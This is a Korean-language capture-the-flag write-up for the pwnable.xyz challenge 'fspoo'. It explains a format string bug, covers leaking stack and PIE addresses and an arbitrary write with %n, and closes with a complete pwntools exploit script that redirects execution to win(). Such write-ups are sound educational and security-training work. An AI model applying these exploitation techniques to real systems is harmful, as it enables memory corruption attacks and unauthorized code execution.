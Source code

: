 # [pwnable.xyz] fspoo

> Emojis on the rise

## The Bug

![image](https://github.com/user-attachments/assets/f03b7b20-6fe3-4136-bfc8-5b7bdfac8c1c)

![image](https://github.com/user-attachments/assets/5a892b41-3a0f-46c0-9fa1-df1015860d8f)

`fmt`는 `%s` 앞에 7바이트가 추가된 format string이다.

![image](https://github.com/user-attachments/assets/3fa433f2-9b82-483f-a310-a6519148405a)

`cmd[0x30]`에는 최대 `0x1f`바이트까지 입력할 수 있기 때문에 `sprintf()`로 `cmd`에 복사되는 문자열의 길이는 최대 `0x26`바이트이다.

![image](https://github.com/user-attachments/assets/7dc5a19c-9a61-4526-842b-58cd1986a26d)

따라서 `cmd[0x20]`부터는 임의의 문자열로 채울 수 있고, format string bug가 발생한다.

## Exploit

### Get stack address

`vuln()`의 SFP (`main()`의 `ebp`)를 leak하여 stack address를 구할 수 있다.

![image](https://github.com/user-attachments/assets/1dfe18f2-3387-44a3-ada1-cc3d02ee08d4)

### Get PIE base

`vuln()`의 return address를 leak하여 PIE base를 구할 수 있다.

![image](https://github.com/user-attachments/assets/d2c19f5d-845e-4c77-a074-11ead0357e04)

### Arbitrary address write

![image](https://github.com/user-attachments/assets/53a95635-22fb-4f86-8e65-c0ffb0d07973)

`op`를 이용하여 스택에 임의의 4바이트 값(주소)을 쓸 수 있고, `%n`을 사용하여 이 주소에 값을 쓸 수 있다.

![image](https://github.com/user-attachments/assets/9e5bd8a7-05d9-4e49-ad58-5bf16fea1758)

![image](https://github.com/user-attachments/assets/644b90cc-9572-4593-b370-0cccab08ece5)

### Extend format string

`vuln()`의 return address를 `win()`으로 덮을 수 있다면 바로 플래그를 획득할 수 있지만, format string이 6바이트로 제한되기 때문에 불가능하다. 그래서 먼저 format string의 길이를 늘려 주어야 한다.

![image](https://github.com/user-attachments/assets/7fe624a7-6412-451b-823e-ea1ef0e1d057)

빨간 박스 부분에 null byte가 없도록 채우면 뒤쪽의 `0x1f`바이트도 format string으로 연결된다. 이 길이는 `vuln()`의 return address를 덮기에 충분하다.

### Full code

```python
from pwn import *

r = remote("svc.pwnable.xyz", 30010)

sla = r.sendlineafter
sa = r.sendafter


def edit_name(name):
    sla(b"> ", b"1")
    sa(b"Name: ", name)


def prep_msg():
    sla(b"> ", b"2")


def print_msg():
    sla(b"> ", b"3")


# leak stack address
sa(b"Name: ", b"a" * 0x19 + b"%10$p")
prep_msg()
ebp = int(r.recvn(10)[2:], 16)  # ebp of main()
log.info(f"ebp of vuln(): {hex(ebp)}")

# leak pie
edit_name(b"a" * 0x19 + b"%11$p")
prep_msg()
pie = int(r.recvn(10)[2:], 16) - 0xA77  # pie base
log.info(f"pie base: {hex(pie)}")
cmd = pie + 0x2040
win = pie + 0x9FD

# extend format string
edit_name(b"a" * 0x19 + b"a%6$hn")
sla(b"> ", str((cmd & 0xFFFFFF00) + 2).encode())
for i in range(0x26, 0x30):
    sla(b"> ", str(cmd + i).encode())

# overwrite return address of vuln()
sla(b"> ", str(((ebp - 0xC) & 0xFFFFFF00) + 1 - 0x100000000).encode())
sa(b"Name: ", f"%{str((win & 0xffff) - 0xb)}c%6$hn\x00".encode())
sla(b"> ", str(ebp - 0xC - 0x100000000).encode())

# return vuln() => call win()
sla(b"> ", b"0")

r.interactive()
```

![image](https://github.com/user-attachments/assets/dc837861-7dd3-46c5-b15e-97f0df48c5c5)
